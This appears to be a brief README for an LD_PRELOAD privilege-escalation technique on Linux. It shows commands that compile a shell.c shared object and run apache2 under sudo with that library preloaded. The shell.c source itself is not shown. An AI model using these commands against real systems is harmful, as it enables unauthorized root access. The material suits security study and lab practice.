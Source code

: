 # LD_Preload_PrivEsc
LD_Preload PrivEsc found on @johnjhacking blog (https://johnjhacking.com)

#### Compile the shell.c code
gcc -fPIC -shared -o shell.so shell.c -nostartfiles

#### Add shell.so to LD_PRELOAD
sudo LD_PRELOAD=~/shell.so apache2
